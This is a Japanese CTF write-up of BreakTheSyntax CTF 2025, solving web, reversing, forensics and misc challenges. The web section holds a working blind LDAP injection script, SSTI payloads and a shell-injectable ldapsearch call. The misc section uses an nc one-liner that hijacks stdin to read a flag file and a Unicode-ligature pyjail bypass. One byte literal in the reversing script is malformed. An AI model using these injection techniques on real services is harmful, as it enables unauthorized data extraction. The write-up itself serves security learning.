





最近は週末に海外の謎CTFに参加するのがマイブームです。



今回は個人で参加し、結果は1666点で484チーム中54位でした。結構面白かった問題があったのでそれを中心にwriteupを残します。

https://ctftime.org/event/2749

https://github.com/kq5y/ctf-writeups/tree/main/contest/2025/BreakTheSyntaxCT2025

## web

### lightweight [50pt]

flask上でログインフォームを持つアプリケーションが動いている。データベースはLDAPを使用している。

<details>
  <summary>問題コード</summary>

```sh title=entrypoint.sh
#!/bin/bash

# append description with flag
echo "description: BtSCTF{fake_flag}" >> /base.ldif && cat /base.ldif

# start
echo Starting
service slapd start

sleep 1
ldapadd -D cn=admin,dc=bts,dc=ctf -f /base.ldif -x -w STYE0P8dg55WGLAkFobiwMSJKix1QqpH

cd /app && python3 -m gunicorn -b 0.0.0.0:80 app:app

```

```python title=app/app.py
from flask import Flask, render_template, request
from ldap3 import Server, Connection, ALL

app = Flask(__name__)

ADMIN_PASSWORD = "STYE0P8dg55WGLAkFobiwMSJKix1QqpH"


@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        
        server = Server('localhost', port=389, get_info=ALL)

        conn = Connection(server, 
                          user=f'cn=admin,dc=bts,dc=ctf',
                          password=ADMIN_PASSWORD,
                          auto_bind=True)
        
        if not conn.bind():
            return 'Failed to connect to LDAP server', 500

        conn.search('ou=people,dc=bts,dc=ctf', f'(&(employeeType=active)(uid={username})(userPassword={password}))', attributes=['uid'])

        if not conn.entries:
            return 'Invalid credentials', 401

        return render_template('index.html', username=username)
    
    return render_template('login.html')

```

</details>

`entrypoint.sh`を見るとフラグはデータベースの`description`カラムにあるっぽい。ただ、`app.py`でそれを取り出してる様子はない。ここで`app.py`のデータベースへのクエリを確認すると、入力に対してなんの処理もされていないため _Blind LDAP Injection_ を行う。

```txt showLineNumbers=false
(&(employeeType=active)(uid=testuser)(|(description={prefix}*)(userPassword=x)))
```

このようなフィルターを作ると、testuserの`description`がprefixから始まる場合ログインできる。これを用いて次のスクリプトを実行する。

```python
import string
import requests

url = "https://lightweight.chal.bts.wh.edu.pl/"
charset = string.ascii_letters + string.digits + '{}_-'
flag = ''

while True:
    found = False
    for ch in charset:
        prefix = flag + ch
        username = f'testuser)(|(description={prefix}*'
        password = "x)"
        data = {
            'username': username,
            'password': password
        }
        response = requests.post(url, data=data)
        if 'Invalid credentials' not in response.text:
            print(f'[+] Match: {prefix}')
            flag += ch
            found = True
            break
    if not found:
        print('[-] Extraction complete.')
        break
print('[*] Extracted flag:', flag)
```

なお、結構時間がかかったので最初に文字の種類を特定しても良かったかもしれない。

`BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp333333}`

### 解けなかった問題

web問題としてはlightweightに続いてlightweight-2とlightweight-3があった。
これらはソースコードが提供されていなかった、がlightweightと同様の見た目のウェブサイトだったため、全問と同様にLDAPの脆弱性を攻めようと考えた。

しかしながらそれは間違いで、lightweight-2はログイン後ユーザー名が表示されるところからSSTIをチェックする必要がある。

```txt showLineNumbers=false
username=*)(!(description={{7*7}}*)&password=*
```

このように確認すると、ページ上で式が実行できるためJinja2であることがわかる。よって`{{config}}`として設定を表示するとフラグが獲得できる。


lightweight-3はLDAPからのsearchが`conn.search`ではなく次のようにコマンドで行われているため、コマンドインジェクションが行えるというものだった。

```python
cmd = f"ldapsearch -x -H ldap://localhost -b 'ou=prisms,dc=bts,dc=ctf' -D cn=admin,dc=bts,dc=ctf -s sub '(&(objectclass=prismProduct)(cn={prism}))' -w {ADMIN_PASSWORD}"
process = Popen(cmd, shell=True, stdout=PIPE, stderr=PIPE)
stdout, stderr = process.communicate()
```

先入観に囚われては行けないんですねー

## rev

### Raindom Bash Adventure [50pt]

renpyで作成されたゲーム、実行して会話を進めていくと大量の選択肢が大量に続く。どうやら巡回セールスマン問題を解いてほしいみたい。



<details>
  <summary>問題コード</summary>

https://github.com/kq5y/ctf-writeups/blob/main/contest/2025/BreakTheSyntaxCTF2025/rev/rainbom-bash-adventure/script.rpy

</details>

すべてを手作業で入力していくのは大変なので、次のようなスクリプトを実行してフラグを獲得。

```python
import re
import hashlib
import networkx as nx

with open("script.rpy","r") as f:
    s=f.read()

SS=s.split("label cloud")[1:]

def gs(ss_):
    t=int(ss_.split(":")[0])
    matches = re.findall(r"fly to cloud(\d+) which is (\d+) pony units away", ss_)
    return t, {int(cloud): int(units) for cloud, units in matches if int(cloud) != t}

g = {}
for mSS in SS:
    t,ng=gs(mSS)
    g[t]=ng

def tsp_approx(graph_dict):
    G = nx.Graph()
    for u in graph_dict:
        for v in graph_dict[u]:
            G.add_edge(u, v, weight=graph_dict[u][v])

    path = nx.approximation.traveling_salesman_problem(G, weight='weight', cycle=False)
    total_distance = sum(
        G[path[i]][path[i + 1]]['weight']
        for i in range(len(path) - 1)
    )
    return path, total_distance

path, distance = tsp_approx(g)

nodes = path[path.index(0):]+path[:path.index(0)+1]

def xor(target, key):
    out = [c ^ key[i % len(key)] for i, c in enumerate(target)]
    return bytearray(out)

def key_from_path(path):
    return hashlib.sha256(str(path).encode()).digest()

def check_path(path, enc_flag):
    flag1 = xor(enc_flag, key_from_path(path))
    flag2 = xor(enc_flag, key_from_path(list(reversed(path))))
    if flag1.startswith(b"BtSCTF"):
        flag = flag1
        print(flag)
        flag = bytes(flag).replace(b"{", b"{{").decode('ascii')
        return True
    if flag2.startswith(b"BtSCTF"):
        flag = flag2
        print(flag)
        flag = bytes(flag).replace(b"{", b"{{").decode('ascii')
        return True
    return False

is_correct = check_path(nodes, bytearray(b'\xc2\x92\xf9\xf66\xe8\xa5\xa6\x17\xb6mGE\xcfQ\x90Mk:\x9a\xbb\x9\05&\x19\x8e\xc4\x9a\x0b\x1f\xf8C\xf4\xb9\xc9\x85R\xc2\xbb\x8d\x07\x94[R_\xf5z\x9fAl\x11\x9c\xbb\x9255\x08\x8e\\xf6\xd6\x04'))
```

`BtSCTF{YOU_are_getting_20_percent_c00ler_with_this_one_!!_B)}`

## forensics

### monkey see [50pt]

次のようなパケットが多く含まれているpcapファイルが1つ与えられた。



明らかにキーボードのUSB通信のため、これを復号するスクリプトを作成する。[^see-script]

[^see-script]: インターネット上のスクリプトでそのまま動くものが見つからなかったため試行錯誤した結果、ShiftやBackSpaceの処理を飛ばして時間がかかってしまった。

```python
import re
import pyshark

capture = pyshark.FileCapture('monkey-see.pcapng', display_filter='usb.src == 1.9.1 && usb')

hid_usage_table = {
    0x00: '',
    0x04: 'a', 0x05: 'b', 0x06: 'c', 0x07: 'd', 0x08: 'e',
    0x09: 'f', 0x0A: 'g', 0x0B: 'h', 0x0C: 'i', 0x0D: 'j',
    0x0E: 'k', 0x0F: 'l', 0x10: 'm', 0x11: 'n', 0x12: 'o',
    0x13: 'p', 0x14: 'q', 0x15: 'r', 0x16: 's', 0x17: 't',
    0x18: 'u', 0x19: 'v', 0x1A: 'w', 0x1B: 'x', 0x1C: 'y', 0x1D: 'z',
    0x1E: '1', 0x1F: '2', 0x20: '3', 0x21: '4', 0x22: '5',
    0x23: '6', 0x24: '7', 0x25: '8', 0x26: '9', 0x27: '0',
    0x28: '\n',  # Enter
    0x2C: ' ',   # Space
    0x2D: '-',  # -
    0x2E: '=',  # =
    0x2F: '[',  # [
    0x30: ']',  # ]
    0x38: '/'
}

UPPER_MAP = {
    '-': '_',
    '[': '{',
    ']': '}',
    '1': '!',
    '2': '@',
    '3': '#',
    '/': '?'
}

reconstructed_input = []
s = ""
for packet in capture:
    try:
        m=int(packet.layers[1].usbhid_data.split(":")[1],16)
        nsn=int(packet.layers[1].usbhid_data_array.split(":")[0],16)
        ns=''
        if nsn in hid_usage_table:
            ns=hid_usage_table[nsn]
        if nsn == 0x2a:
            s=s[:-1]
            continue
        if m == 2:
            if ns != ns.upper():
                ns=ns.upper()
            if ns in UPPER_MAP:
                ns = UPPER_MAP[ns]
        s+=ns
    except:
        pass

capture.close()

print(s)

match = re.search(r'BtSCTF\{.*?\}', s)
print(match.group())
```

`BtSCTF{m0nk3y_tYpE!!1!!oneone!}`

### monkey paint? [212pt]

前の問題と同様に、次のようなパケットで構成されるpcapファイルが1つ与えられた。



次はおそらく問題名からもマウスのUSB通信だろうということで、これを復号するスクリプトを作成する。

```python
import re
import pyshark
from PIL import Image

capture = pyshark.FileCapture('monkey-paint.pcapng')

d=[]
for packet in capture:
    try:
        ds=packet.layers[1].usb_capdata
        d.append(ds)
    except:
        pass

capture.close()

data = []
for rep in d:
    parts = rep.split(':')
    row = []
    for x in parts:
        v = int(x, 16)
        v = v - 256 if v >= 0x80 else v
        row.append(v)
    data.append(row)

picture = Image.new("RGB", (800, 600), "white")
pixels = picture.load()

INIT_X, INIT_Y = 500, 200
x, y = INIT_X, INIT_Y

for step, dt in enumerate(data):
    x += dt[1]
    y += dt[2]
    if dt[0] == 1 or dt[0] == 3:
        for i in range(-1, 1):
            for j in range(-1, 1):
                try:pixels[x + i , y + j] = (0, 0, 255, 50)
                except:pass
    if dt[0] == 2 or dt[0] == 3:
        try:pixels[x, y] = (0, 255, 0, 50)
        except: pass
    #if dt[0] == 0:
        #try:pixels[x, y] = (255, 0, 0, 200)
        #except:pass

picture.save("flag.png", "PNG")
```

これを実行すると次のような画像が得られる。



`BtSCTF{yeah_it_does!11!}`

### copypasta [357pt]

pdfファイルとwordlist.txtが与えられる。pdfをAcrobatで開こうとすると「ファイルは壊れている」と言われた後パスワードを要求される。
まずはpdfcrackを用いてパスワードの解析を行う。

```bash showLineNumbers=false
$ pdfcrack -f copypasta.pdf -w wordlist.txt
PDF version 1.7
Security Handler: Standard
V: 2
R: 3
P: -3392
Length: 128
Encrypted Metadata: True
FileID: d3117196a8bcb2110a0067458b6bc623
U: 460a5599c264b869503f662f4ebd1bad00000000000000000000000000000000
O: 4d472cbb7fb42299fa91d557dc4de781868767dc39b1e8789286ee343282d5a2
found user-password: 'pumpkin'
```

よってパスワードが`pumpkin`であることが分かった。これを用いてAcrobatで開いてみると次のような文章が。

```txt showLineNumbers=false
using linux in front of class mates
teacher says “Ok students, now open photoshop”
start furiously typing away at terminal to install Wine
Errors out the BtSCTF{we_have_to_censor_that_one
Everyone else has already started their classwork
I start to sweat
Install GIMP
”Umm...what the _and_another_one” a girl next to me asks
I tell her its GIMP and can do everything that photoshop does and IT’S FREE! “Ok class, now use the shape to to draw a circle!” the teacher says
I _and_finally_that_one} break down and cry and run out of the class
I get beat up in the parking lot after school
```

よって、フラグっぽいところを抜き出すとフラグ獲得。

`BtSCTF{we_have_to_censor_that_one_and_another_one_and_finally_that_one}`

## misc

### stupid fd manager [428pt]

次のコードがサーバー上で実行されている。

<details>
  <summary>問題コード</summary>

```c title=fd_manager.c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>

int FILES[0x10];
char *PATHS[0x10];

void menu(void) {
    puts("1. list opened files");
    puts("2. open a new file");
    puts("3. close a file");
    puts("4. exit");
    puts("");
}

int read_number(void) {
    char line[100] = {};
    scanf("%99s", line);
    
    char *endptr;
    long number;
    number = strtol(line, &endptr, 10);
    if (endptr == line || *endptr != '\n' && *endptr != '\0') {
        printf("not a number: %s\n", line);
        exit(-3);
    }

    return number;
}

void list_files(void) {
    for (int i = 0; i < 0x10; ++i) {
        int file = FILES[i];
        char *path = PATHS[i];
        if (file == -1)
            continue;
        printf("%d: %s\n", file, path);
    }
}

void close_file(void) {
    printf("fd to close: ");
    int fd = read_number();
    if (fd == -1)
        return;
    close(fd);
    for (int i = 0; i < 0x10; ++i) {
        if (FILES[i] == fd) {
            FILES[i] = -1;
            free(PATHS[i]);
            PATHS[i] = 0;
        }
    }
}

void open_file(void) {
    char *path = calloc(1, 100);
    if (path == 0) {
        puts("something went very wrong, contact admins");
        exit(-1);
    }

    printf("enter file path: ");
    scanf("%99s", path);

    int fd = open(path, O_RDONLY);
    for (int i = 0; i < 0x10; ++i) {
        if (FILES[i] == -1) {
            FILES[i] = fd;
            PATHS[i] = path;
            break;
        }
    }
}

int main() {
    for (int i = 0; i < 0x10; i++) {
        FILES[i] = -1;
    }
    setvbuf(stdout, NULL, _IOLBF, 0);
    setvbuf(stdin, NULL, _IOLBF, 0);
    setvbuf(stderr, NULL, _IOLBF, 0);
    _Bool quit = 0;

    while (!quit) {
        menu();
        int number = read_number();

        switch (number) {
            case 1:
                list_files();
                break;
            case 2:
                open_file();
                break;
            case 3:
                close_file();
                break;
            case 4:
                quit = 1;
                break;
        }
    }

    return 0;
}
```
</details>

ファイルを開閉できるメニューがあり、目標は`/app/flag`の内容を取得すること。

ここで重要なのはfdの0が標準入力でありそれもcloseできる点。これを利用してフラグを獲得する。

まずはメニューの3を選び0を閉じる。
そうすると、次にopenをする際に空いている最小のfdである0が利用される。
つまり次に`/app/flag`を開くと、そのファイルがfdが0として割り当てられ、標準入力が`/app/flag`にすり替わる。
この状態で再びopenを行い`scanf`を呼び出すと、プログラムはユーザーの入力ではなく、fdが0である`/app/flag`からデータを読み込み、ファイルパスとしてメモリに保存される。
最後に開いているファイルの一覧を表示させると保存されたファイルパス、すなわちフラグが獲得できる。

普通に手入力してもできないため、シェルを用いて入力する。

```bash showLineNumbers=false
printf "3\n0\n2\n/app/flag\n2\n\n1\n" | nc localhost 9999
```

これでフラグが得られる。

`BtSCTF{f1l3_d3scr1pt0rs_4r3_tr1ckyyyy}`

### 解けなかった問題

#### flag printer

入力するとpythonの実行結果が返ってくるプログラムがサーバーで動いてるっぽい。ただ入力はピッタリ4文字じゃないといけない。
目的はflag変数を確認することだが、入力内容が`flag`だと断られる。  
`a=10`のように変数定義をしようとすると`print() got an unexpected keyword argument 'a'`というエラーが帰ってきた。  
ここからおそらく`exec(f"print({user_input})")`となっていることは予想できたが、此処から先が進めなかった。

終了後、discord上で他の方の解法を確認すると、どうやらPythonの識別子はUnicode正規化が行われるらしい。
つまり、変数名における`変数1`と`変数１`は同等ということだ。

https://satoooon1024.hatenablog.com/entry/2022/08/20/Python%E3%81%AE%E8%AD%98%E5%88%A5%E5%AD%90%E3%81%AB%E3%81%8A%E3%81%91%E3%82%8BUnicode%E6%AD%A3%E8%A6%8F%E5%8C%96%28NFKC%29%E3%81%A8pyjail

ここで重要になってくるのが合字の存在で、さっきのと同様に`変数㍍`と`変数メートル`は同じということだ。そしてここにちょうどよくfとlの合字である`fl`が存在する。つまり、`flag`と`flag`と３文字で入力できる、ということだ。

よって`flag `と入力すると、`flaga`にフラグは移動したと案内される。`flaga`と入力するとフラグ獲得。

## まとめ

結構初めての経験が多く学びがたくさんありました、いい話。  
色々やることがあってこれを書くのが遅くなってしまったのはよくない話。

https://github.com/PWrWhiteHats/BtS-2025-Writeups/
